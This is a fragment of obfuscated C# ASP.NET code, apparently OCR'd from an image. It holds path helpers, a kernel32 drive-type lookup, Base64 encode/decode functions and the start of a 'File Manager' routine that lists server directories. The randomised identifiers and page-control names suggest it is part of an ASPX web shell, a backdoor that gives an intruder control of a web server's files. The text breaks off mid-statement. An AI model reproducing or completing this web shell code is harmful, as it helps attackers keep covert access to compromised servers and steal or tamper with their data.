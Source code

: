 public string OElM(string path)
{
if(path.Substring(path.Length-1,1)!=@"\")
{
path=path+@"\";
}
return path;
}
public string nrrx(string path)
{
char[] trim={'\\'};
if(path.Substring(path.Length-1,1)==@"\")
{
path=path.TrimEnd(trim);
}
return path;
}
[DllImport("kernel32.dll",EntryPoint="GetDriveTypeA")]
public static extern int OMZP(string nDrive);
public string mFvj(string instr)
{
string EuXD=string.Empty;
int num=OMZP(instr);
switch(num)
{
case 1:
EuXD="Unknow("+instr+")";
break;
case 2:
EuXD="Removable("+instr+")";
break;
case 3:
EuXD="Fixed("+instr+")";
break;
case 4:
EuXD="Network("+instr+")";
break;
case 5:
EuXD="CDRom("+instr+")";
break;
case 6:
EuXD="RAM Disk("+instr+")";
break;
}
return EuXD.Replace(@"\","");
}
public string MVVJ(string instr)
{
byte[] tmp=Encoding.Default.GetBytes(instr);
return Convert.ToBase64String(tmp);
}
public string Ebgw(string instr)
{
byte[] tmp=Convert.FromBase64String(instr);
return Encoding.Default.GetString(tmp);
}
public void krIR(string path)
{
WICxe();
CzfO.Visible=true;
Bin_H2_Title.InnerText="File Manager &gt;&gt;";
AXSbb.Value=OElM(path);
DirectoryInfo GQMM=new DirectoryInfo(path);
if(Directory.GetParent(nrrx(path))!=null)